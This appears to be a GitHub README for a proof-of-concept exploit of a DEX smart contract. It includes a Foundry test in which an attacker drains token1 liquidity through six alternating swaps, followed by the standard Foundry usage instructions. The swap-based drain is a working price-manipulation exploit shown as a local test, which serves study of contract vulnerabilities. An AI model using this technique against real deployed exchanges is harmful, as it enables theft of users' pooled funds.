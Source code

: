 # PoC Dex
## Overview:
An attacker can exploit the Dex contract by performing a series of swaps to drain the liquidity. 

## Actors:
Attacker - The attacker make some series of swaps to the DEX to drain the liquidity
Protocol - The protocol is a DEX the allows two different types of token to be swapped, token one & token two.

### Test Case:
`
function test_multiple_swaps() public {
        vm.startPrank(attacker);
        token1.approve(address(dex), 100);
        token2.approve(address(dex), 100);

        uint256 token1Expected = token1.balanceOf(address(dex));
        // uint256 token2Expected = token2.balanceOf(address(dex));
        dex.swap(address(token1), address(token2), 10);
        dex.swap(address(token2), address(token1), 20);
        dex.swap(address(token1), address(token2), 24);
        dex.swap(address(token2), address(token1), 30);
        dex.swap(address(token1), address(token2), 41);
        dex.swap(address(token2), address(token1), 45);

        uint256 token1Balance = token1.balanceOf(attacker);
        // uint256 token2Balance = token2.balanceOf(attacker);
        // uint256 token2ExpectedAfter = token2.balanceOf(address(dex));
        uint256 token1ExpectedAfter = token1.balanceOf(address(dex));

        assert(token1Balance == token1Expected + 10);
        assertEq(token1ExpectedAfter, 0);
    }


`



## Foundry

**Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust.**

Foundry consists of:

-   **Forge**: Ethereum testing framework (like Truffle, Hardhat and DappTools).
-   **Cast**: Swiss army knife for interacting with EVM smart contracts, sending transactions and getting chain data.
-   **Anvil**: Local Ethereum node, akin to Ganache, Hardhat Network.
-   **Chisel**: Fast, utilitarian, and verbose solidity REPL.

## Documentation

https://book.getfoundry.sh/

## Usage

### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
$ forge script script/Counter.s.sol:CounterScript --rpc-url <your_rpc_url> --private-key <your_private_key>
```

### Cast

```shell
$ cast <subcommand>
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
